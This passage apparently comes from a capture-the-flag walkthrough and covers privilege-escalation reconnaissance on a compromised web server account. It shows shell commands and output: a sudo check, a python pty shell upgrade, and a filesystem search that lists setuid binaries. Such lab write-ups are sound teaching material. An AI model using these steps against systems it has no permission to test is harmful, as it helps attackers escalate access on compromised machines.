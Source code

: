 # Post Exploitation
> Privilege Escalation
21. `sudo -l` to list the sudo privileges assigned to the user, but doesn't work in this case since we don't have access to an interactive terminal
22. `python -c ‘import pty; pty.spawn(“/bin/bash”)’` to spawn an interactive bash shell with pseudo-terminal support
23. `sudo -l` to attempt a second time to list the sudo privileges assigned to the user, which this time prompts us for the current user's password, for which we don't have
24. `find / -perm -u=s -type f 2>/dev/null` to search the entire filesystem (**"/"**) for regular files (**-type f**) with a setuid permission (**-perm -u=s**) for the current user that we're logged in as
```bash
$ sudo -l
sudo: no tty present and no askpass program specified
```
```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$ 
```
```bash
bash-4.4$ sudo -l
sudo -l
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: 

sudo: 3 incorrect password attempts
```
```bash
bash-4.4$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
```